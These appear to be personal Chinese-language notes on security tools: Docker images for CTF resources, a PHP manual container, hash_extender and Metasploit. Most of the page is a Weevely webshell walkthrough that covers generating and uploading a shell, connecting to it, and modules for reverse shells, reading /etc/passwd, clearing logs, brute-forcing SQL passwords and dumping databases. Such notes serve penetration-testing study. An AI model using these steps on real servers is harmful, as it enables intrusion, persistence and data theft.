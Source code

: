 # 镜像
[ctfwiki/ctf-wiki - Docker Image | Docker Hub](https://hub.docker.com/r/ctfwiki/ctf-wiki)
[wcjiang/linux-command - Docker Image | Docker Hub](https://hub.docker.com/r/wcjiang/linux-command)
[mpepping/cyberchef - Docker Image | Docker Hub](https://hub.docker.com/r/mpepping/cyberchef)
##### PHP manual
[PHP: Download documentation](https://www.php.net/download-docs.php)
```dockerfile
FROM nginx
COPY ./php-chunked-xhtml /usr/share/nginx/html
```

```sh
docker build . -t php8-manual
docker run --rm --name php8-manual -dp 3001:80 php8-manual
```

# Weevely
kali自带的webshell管理工具
1. 生成木马文件，在weebely3文件夹中会生成一个连接密码为123的shell.php
```sh
./weevely.py generate <password> shell.php
```
2. 上传shell文件到目标服务器
3. 连接木马
```sh
./weevely.py http://192.168.139.129:81/shell.php <password>
```
4. 连上之后可以执行指令了
5. 利用自带模块收集信息

```sh
:system_info -info uname
# 直接输入help可以查看其他可用模块
```

```sh
:shell_su                     # 通过更变使用者来执行shell命令，可以获得root权限来执行命令.
:shell_sh                     # 执行 shell 命令.
:shell_php                    # 执行 PHP 命令.
:system_extensions            # 收集PHP和webserver扩展列表
:system_info                  # 收集系统信息
:system_procs                 # 列出正在运行的进程
:audit_disablefunctionbypass  # 使用mod_cgi和.htaccess绕过系统禁用函数的限制。它会上传.htaccess和CGI脚本，并在远程服务器上运行伪系统shell
:audit_etcpasswd              # 查看/etc/passwd文件
:audit_suidsgid               # 查找带有SUID或SGID标志的文件。
:audit_phpconf                # 查看php配置信息
:audit_filesystem             # 审核文件系统的弱权限。枚举各种系统目录并寻找可读写执行的目录，模块仅默认搜索部分linux下的常见目录，logs、root、home等
:backdoor_reversetcp          # 执行反向TCP shell. 需要nc -lvp <port>监听
:backdoor_tcp                 # 在TCP端口上生成shell
:net_scan                     # TCP端口扫描.
:net_mail                     # 发送邮件.
:net_ifconfig                 # 获取网络接口地址.
:net_curl                     # 执行类似curl的HTTP请求.
:net_proxy                    # 运行本地代理以通过目标转移HTTP / HTTPS浏览
:net_phpproxy                 # 在目标上安装PHP代理.
:bruteforce_sql               # 可用来猜解数据库密码.
:file_find                    # 查找具有给定名称和属性的文件.
:file_download                # 从远程文件系统下载文件.
:file_check                   # 获取文件的属性和权限.
:file_touch                   # 更改文件时间戳.
:file_cd                      # 更改当前工作目录.
:file_grep                    # 打印与多个文件中的模式匹配的行.
:file_gzip                    # 压缩或解压gzip文件.
:file_tar                     # 压缩或解压tar文件.
:file_enum                    # 检查路径列表的存在和权限
:file_bzip2                   # 压缩或解压bzip2文件.
:file_mount                   # 使用HTTPfs挂载远程文件系统.
:file_clearlog                # 从文件中删除字符串.
:file_zip                     # 压缩或解压zip文件.
:file_cp                      # 复制单个文件.
:file_upload2web              # 自动将文件上传到Web文件夹并获取相应的URL.
:file_edit                    # 在本地编辑器上编辑远程文件.
:file_read                    # 从远程文件系统中读取远程文件.
:file_webdownload             # 指定URL下载文件.
:file_upload                  # 文件上载到远程文件系统.
:file_ls                      # 列出目录内容.
:file_rm                      # 删除远程文件.
:sql_dump                     # Multi dbms mysqldump replacement.
:sql_console                  # 执行SQL查询或运行sql控制台.
```


# Hash_extender
[iagox86/hash_extender (github.com)](https://github.com/iagox86/hash_extender)
哈希扩展攻击的实现



# Metasploit
`msfconsole`启动
常用的渗透测试工具，包含了常见的漏洞利用模块和生成各种木马。